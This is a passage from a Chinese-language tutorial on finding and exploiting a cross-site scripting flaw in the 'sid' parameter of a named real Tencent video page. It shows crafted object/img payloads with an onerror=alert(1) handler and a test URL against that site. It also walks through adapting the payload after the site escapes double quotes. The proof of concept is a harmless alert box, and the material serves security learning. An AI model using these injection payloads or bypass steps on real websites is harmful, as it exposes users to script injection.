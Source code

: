 和查看源代码没有什么不同，只是这次是在调试工具里看而已。

6\. 通过上面的方式，确定【可能】有漏洞之后。我们可以有 2 个方式来进行下一步。

6.1 直接根据调试工具里看到的 HTML 代码情况，来构造利用代码。 优点：省时间，缺点：如果对方有一定过滤，就很难构造

6.2 定位到与这个缺陷参数 sid 相关的 JS 代码，再来构造利用代码。优点：能利用一些复杂的情况， 缺点：耗时间。

7\. 对于新手来说，先看 6.1 的情况。看到步骤 5 里面的那个图。我们可以构造以下代码。

```
<object width="100%" height="100%" id="f" classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" codebase="http://fpdownload.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=8,0,0,0">
<param name="movie" value="aaaaaa"></object><img src="1" onerror="alert(1)">
...其它的省略了...
</object> 
```

对应的图片解析：

![image](img/Image_039.jpg)

进而“试探性”的测试一下利用代码，因为我们不知道对方会不会过滤掉 “双引号”，“括号”之类的，只能试试了。。

```
http://qt.qq.com/video/play_video.htm?sid=aaaaa](http://qt.qq.com/video/play_video.htm?sid=aaaaaa)a"></object><img src="1" onerror="alert(1) 
```

没反应，我们继续看看调试工具，发现，双引号，变成了 `\\"` 。

![image](img/Image_040.jpg)

根据这个情况，我们可以进一步修改代码。<img>标签里不使用双引号。

```
http://qt.qq.com/video/play_video.htm?sid=aaaaa](http://qt.qq.com/video/play_video.htm?sid=aaaaaa)a"></object><img src=1 onerror=alert(1)> 
```
